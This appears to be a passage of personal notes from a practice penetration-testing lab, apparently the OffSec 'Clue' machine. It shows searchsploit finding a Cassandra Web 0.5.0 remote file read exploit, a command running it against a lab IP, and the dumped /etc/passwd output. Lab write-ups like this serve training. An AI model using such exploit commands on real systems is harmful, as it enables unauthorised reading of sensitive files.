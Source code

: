 
Downloaded backup, there is a ton of stuff in there, putting a pin in it for now


========================================================================================================================
┌──(kali㉿kali)-[~/…/smb-dl/freeswitch/etc/freeswitch]
└─$ searchsploit cassandra   
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Atrium Software Cassandra NNTP Server 1.10 - Buffer Overflow                      | windows/dos/19884.txt
Cassandra Web 0.5.0 - Remote File Read                                            | linux/webapps/49362.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


└─$ searchsploit -m 49362.py
  Exploit: Cassandra Web 0.5.0 - Remote File Read
      URL: https://www.exploit-db.com/exploits/49362
     Path: /usr/share/exploitdb/exploits/linux/webapps/49362.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/offsec/pg-practice/Clue/49362.py



┌──(kali㉿kali)-[~/offsec/pg-practice/Clue]
└─$ python3 exploit.py 192.168.199.240 /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ntp:x:106:113::/nonexistent:/usr/sbin/nologin
cassandra:x:107:114:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin
cassie:x:1000:1000::/home/cassie:/bin/bash
freeswitch:x:998:998:FreeSWITCH:/var/lib/freeswitch:/bin/false
anthony:x:1001:1001::/home/anthony:/bin/bash
